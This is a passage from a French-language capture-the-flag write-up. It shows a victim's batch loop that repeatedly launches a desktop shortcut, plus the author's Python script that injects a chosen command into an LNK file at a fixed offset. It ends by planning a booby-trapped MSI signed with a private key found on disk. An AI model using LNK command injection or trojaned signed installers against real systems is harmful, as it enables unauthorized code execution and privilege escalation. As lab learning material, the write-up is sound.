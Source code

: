 Cet utilisateur dispose du premier flag dans son bureau :) Et dans ses documents le script chargé de lancer le LNK et de le restaurer régulièrement :  

```plain
@echo off

:loop

echo opening program

PING localhost -n 5 >NUL

START /MIN "" cmd /c "C:\Users\Public\Desktop\Shortcuts\Visual Studio 2017.lnk" && PING localhost -n 5 >NUL && copy /Y "C:\Users\jorge\Documents\Visual Studio 2017.lnk" "C:\Users\Public\Desktop\Shortcuts\Visual Studio 2017.lnk" && PING localhost -n 50 >NUL && taskkill /F /IM devenv.exe

cls

GOTO loop
```

Comme je ne voulais pas passer mon temps à switcher d'une VM à l'autre pour générer un nouveau LNK à chaque changement de commande j'ai d'abord créé un LNK utilisant le maximum de caractères autorisés (228 à ce que j'ai vu) et utilisé le script Python suivant qui injecte la commande de mon choix dans le LNK au bon offset :  

```python
import sys

MAX_LENGTH = 228
cmd = sys.argv[1]
if len(cmd) > MAX_LENGTH:
    print("Can't inject this command")
    exit()

cmd = cmd.rjust(MAX_LENGTH).encode("UTF-16LE")

with open("new_link.lnk", "rb+") as fd:
    fd.seek(0x235, 0)
    fd.write(cmd)
```

Les permissions obtenues avec *jorge* nous permet d’accéder au lecteur *D:* (youpi !). On remarque surtout le fichier *d:\dev\msis\note.txt* avec le contenu suivant :  

> Please drop MSIs that need testing into this folder - I will review regularly. Certs have been added to the store already.  
> 
>   
> 
> - Rupal

Et dans *d:\dev* se trouvent un dossier contenant un fichier *.cer* et un fichier *.pvk*. On devine aisément qu'il va falloir générer un MSI piégé puis le signer avec la clé privée... Simple ?  
